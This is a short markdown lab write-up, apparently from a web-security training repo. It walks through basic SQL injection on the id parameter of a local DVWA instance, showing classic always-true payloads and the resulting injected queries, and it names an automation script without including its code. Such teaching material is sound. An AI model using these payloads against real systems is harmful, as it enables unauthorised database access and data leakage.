 # 🛡️ Basic SQL Injection on ID Field (GET Request)

## 1. Objective

Perform a **basic SQL Injection** by manipulating a GET parameter (`id`) to retrieve information from the database without proper authorization.

---

## 2. Target

Target URL example:

```plaintext
http://127.0.0.1/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit
```

---

## 3. Manual Injection Example

Try injecting payloads such as:

```plaintext
1' OR '1'='1
```

or:

```plaintext
2' OR 1=1#
```

Result:

- The SQL query becomes **always true** (`WHERE id = '1' OR '1'='1'`), so the application displays **all users** or **unintended information**.

---

### 🖼️ Example Screenshot

Example result after successful basic SQL Injection:

<pre> <p align="center"> <img src="../sql_injection/images/sqli_basic_id_injection_result.PNG" alt="Basic Sqli result" width="600"/> </p>  </pre>

---

## 4. Internal Behavior (SQL Query)

Normal query:

```sql
SELECT first_name, last_name FROM users WHERE id = '1';
```

Injected query:

```sql
SELECT first_name, last_name FROM users WHERE id = '1' OR '1'='1';
```

Explanation:

- The condition is **always true**.
- The application **leaks more information** than intended.

---

## 5. Python Script to Automate the Test

We created a Python script that:

- Sends multiple payloads into the `id` parameter.
- Detects different responses based on the page content (e.g., keyword detection).

Script location:

```plaintext
audit-web/sql_injection/scripts/test_basic_sqli_id.py
```

The script uses:

- `requests`
- `BeautifulSoup`

Purpose:

- Quickly test several SQL payloads.
- Identify vulnerable behaviors automatically.





